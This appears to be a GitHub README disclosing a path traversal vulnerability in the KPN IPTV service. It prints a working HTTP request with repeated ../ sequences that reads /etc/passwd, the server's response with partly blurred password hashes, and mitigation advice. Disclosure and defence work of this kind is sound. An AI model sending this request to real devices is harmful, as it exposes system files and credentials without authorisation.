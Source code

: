 # KPN-FilePathTraversal-POC-2023

# KPN ITV File Path Traversal Vulnerability

This repository explains a **file path traversal vulnerability** in the KPN IPTV service, allowing unauthorized access to sensitive system files, such as `/etc/passwd`.

---

## Vulnerability Overview

A **path traversal** (or directory traversal) attack occurs when an attacker manipulates the URL path to access directories and files outside the intended web directory. By using sequences like `../../`, an attacker can navigate up the directory structure and potentially access sensitive files.

---

## Example Attack Flow

### URL:
```plaintext
http://192.168.2.x:8081/Service/Controller/UI?ip=192.168.2.x&port=8081
```

* This is the base URL of the KPN IPTV service.

# Malicious Request:
* Burp request
```
GET /Service/Controller/UI../../../../../../../../../../../../../../../../etc/passwd?ip=192.168.2.x&port=8081 HTTP/1.1
Host: 192.168.2.x:8081
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```
* In this request, the attacker exploits path traversal to reach the /etc/passwd file. This is done by adding multiple instances of ../, which moves up the directory structure.
Burp Suite Response

# Response 
The server responds with a 200 OK status and the contents of the /etc/passwd file, including sensitive information. The hashes in the response below have been blurred for privacy:

plaintext
```
HTTP/1.1 200 OK
Content-Type: unknown
Content-Length: 940

root:$5$96bRk************$uTSh**************RLdK1ND*********/XLWC:0:0:root:/home/root:/bin/sh
daemon:*:1:1:daemon:/usr/sbin:/bin/sh
bin:*:2:2:bin:/bin:/bin/sh
sys:*:3:3:sys:/dev:/bin/sh
sync:*:4:65534:sync:/bin:/bin/sync
games:*:5:60:games:/usr/games:/bin/sh
man:*:6:12:man:/var/cache/man:/bin/sh
lp:*:7:7:lp:/var/spool/lpd:/bin/sh
mail:*:8:8:mail:/var/mail:/bin/sh
news:*:9:9:news:/var/spool/news:/bin/sh
uucp:*:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:*:13:13:proxy:/bin:/bin/sh
www-data:*:33:33:www-data:/var/www:/bin/sh
backup:*:34:34:backup:/var/backups:/bin/sh
list:*:38:38:Mailing List Manager:/var/list:/bin/sh
irc:*:39:39:ircd:/var/run/ircd:/bin/sh
gnats:*:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:*:65534:65534:nobody:/nonexistent:/bin/sh
ntpd:x:1001:65534:Linux User,,,:/var/shared/empty:/bin/sh
utc:$5$qkymr************$M1qu**************JoEifmNs********AiybaC:1000:1000:utc:/home/utc:/bin/sh
```


# Explanation of /etc/passwd

* The /etc/passwd file stores essential user account information for a Unix-based system. It typically includes the following information:

    Username
    Password hash (if present)
    User ID (UID)
    Group ID (GID)
    Home directory
    Shell

While modern systems store password hashes in the /etc/shadow file, /etc/passwd can still leak important information, especially for attackers targeting system accounts.
Impact
```
    Information Disclosure: Attackers can access sensitive files like /etc/passwd, revealing system user information.
    Potential Exploitation: With access to password hashes, attackers can attempt password cracking or gain unauthorized system access.
```
Mitigation
```
    Input Validation: Ensure all user inputs are validated and sanitized to prevent malicious sequences like ../.
    Restrict Directory Access: Configure the web server to limit access to sensitive directories.
    Use Web Application Firewalls (WAFs): A WAF can help detect and block suspicious URL patterns associated with path traversal attacks.
```
Conclusion

Path traversal vulnerabilities can lead to severe data exposure and compromise system integrity. This example from the KPN IPTV service demonstrates how improper input validation can open the door to sensitive information leakage. Always implement strong security measures to mitigate such risks.
